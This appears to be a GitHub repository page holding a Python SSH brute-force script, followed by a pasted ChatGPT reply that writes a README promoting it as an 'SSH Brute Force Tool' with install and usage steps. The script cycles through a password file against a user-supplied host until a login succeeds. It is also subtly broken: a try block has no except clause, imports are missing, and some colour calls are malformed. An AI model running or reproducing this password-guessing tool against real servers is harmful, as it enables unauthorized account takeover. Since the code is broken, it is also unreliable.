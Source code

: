 # Collect data from user:

user = input('[+] Enter the username: ')
password = input('[+] Enter the passwords file: ')
host = input('[+] Enter the target website in format www.example.com: ')

# function to connect to the SSH server:
def ssh_connect(password, code = 0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(host, port=22, username=user, password=password)
    except paramiko.AuthenticationException:
        code = 1
    except socket.error as e:
        code = 2
    ssh.close()
    return code

# Open the file with the passwords:
try:
    if not os.path.exists(password):
        print('[!!] File Not Found')
        sys.exit(1)

with open(password, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        try:
            response = ssh_connect(password)
            if response == 0:
                print(termcolor.colored(('[+] Found password: ' + password + ', for account: ' + user), 'green'))
                break
            elif response == 1:
                print(termcolor.colored('[-] Incorrect login: ' + password), 'red')
            elif response == 2:
                print(termcolor.colored('[!!] Can\'t connect'), 'yellow')
                sys.exit(1)
        except Exception as e:
            print(e)
            continue

ChatGPT
Certainly, Professor Del Valle. Below is a README template for your code repository, written in Markdown format. You can adjust the content as necessary to fit your repository's specifics.

markdown
Copy code
# SSH Brute Force Tool

This tool attempts to brute-force SSH passwords for a given username and target website using a list of passwords.

## Description

This Python script leverages the Paramiko library to try and connect to an SSH server with a specified username and a list of passwords. It is designed to test the security of SSH servers by attempting to authenticate using common or guessed passwords. Please use this tool responsibly and only on systems where you have permission to do so.

## Features

- Uses Paramiko for SSH connections.
- Accepts a list of passwords from a file.
- Reports successful and unsuccessful login attempts.
- Handles connection errors gracefully.

## Prerequisites

Before you can run this tool, you need to have Python installed on your system along with the following Python libraries:
- `paramiko` for SSH connections
- `termcolor` for colored terminal output

## Installation

First, ensure you have Python installed on your system. Then, install the required libraries using pip:

```bash
pip install paramiko termcolor
```

## Usage
To use this tool, follow these steps:

* Clone this repository or download the script to your local machine.
* Prepare a text file containing potential passwords, one per line.
* Run the script from your terminal

When prompted, enter the username, path to your passwords file, and the target website (in the format www.example.com).
Please note: This tool is for educational purposes only. Do not attempt to test systems without explicit permission from the owners.

## Contributing
Contributions to this project are welcome. Please fork the repository and submit a pull request with your improvements.

## License
This project is licensed under the MIT License - see the LICENSE.md file for details.

## Disclaimer
This tool is provided for educational use only. Any misuse of this software will not be the responsibility of the author or any contributors.
